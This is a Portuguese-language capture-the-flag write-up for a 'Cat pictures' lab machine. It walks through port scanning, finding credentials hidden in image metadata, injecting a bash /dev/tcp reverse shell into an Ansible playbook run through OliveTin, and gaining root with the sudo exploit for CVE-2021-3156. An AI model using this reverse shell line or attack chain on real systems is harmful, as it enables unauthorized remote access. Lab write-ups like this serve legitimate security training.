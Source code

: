 # _**Cat pictures CTF**_
![](cat.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```
![](scan_nmap.jpg)

O scan nos retornou informações interessantes  
Além das que estão na imagem, temos  
* 3000/tcp open  http    Golang net/http server
* 8080/tcp open  http    SimpleHTTPServer 0.6

Vamos investigando cada um, primeiro, o que está na porta 80  
Um scan com <mark>Gobuster</mark> nos retorna a imagem abaixo
> ```bash
> gobuster dir --url http://[ip_address]:80/ -w ../seclists/Discovery/Web-Content/big.txt
> ```
![](scan_gobuster.jpg)

E temos alguns diretórios, mas ao tentar acessar, temos código 403  
Vasculhando a página inicial, encontramos um formulário de login  

![](login_form.jpg)

Algumas tentativas de SQL injection foram feitas, mas sem sucesso  
Com versão disponível, nenhum exploit foi encontrado  
Vamos para a porta 1337  

![](github_port.jpg)

Na porta 3000, temos um website com formulário de login  

![](port_3000.jpg)

Tentamos algumas formas para entrar como, credenciais comuns e SQL injection, mas sem sucesso  
Agora, na poarta 8080, temos a página _default_ do **Nginx**  

![](port_8080.jpg)

Investigando um pouco mais cada porta por vulnerabilidades, nada foi encontrado  
Vamos focar nas imagens na página web na porta 80  
Realizando o download de cada uma e investigando primeiro com <mark>Exiftool</mark>, foi possível encontrar a seguinte informação   

![](new_dir.jpg)

Temos um novo diretório, vamos investigar  
Neste documento _.txt_, temos usuário e senha para o formulário de login da porta 3000  
Vamos testar  
Conseguimos login! Investigando o usuário e seus _uploads_, temos algumas informações importantes e nossa primeira flag  
A pista para a segunda flag nos indica que também está no repositório do usuário  
Investigando o arquivo _playbook.yaml_, temos o seguinte trecho de código  

![](playbook_code.jpg)

Este código faz o seguinte:
* Se conecta a todos os hosts como o usuário bismuth
* Executa whoami para ver quem está executando os comandos
* Exibe a saída de whoami
* Executa um simples echo hi

Sabendo que o OliveTin na porta 1337 permite a execução de Ansible Playbooks, vamos substituir o comando por um simples payload de shell reverso ```bash -i >& /dev/tcp/[ip_address]/[port] 0>&1```  

![](reverse_shell.jpg)

E assim, podemos obter a segunda flag!

## _**Escalando privilégios**_
Vamos tentar escalar privilégios e encontrar a última flag  
Transferindo <mark>LinPeas</mark> para a máquina-alvo e executando, temos o seguinte retorno  
Algumas CVEs foram encontradas  
Uma delas chamou a atenção: **CVE-2021-3156**  

![](cve.jpg)

Vamos realizar o download do exploit através do link, transferir para a máquina-alvo, utilizar ```make```para gerar o exploit e executar  

![](root.jpg)

Agora basta ir atrás da útlima flag
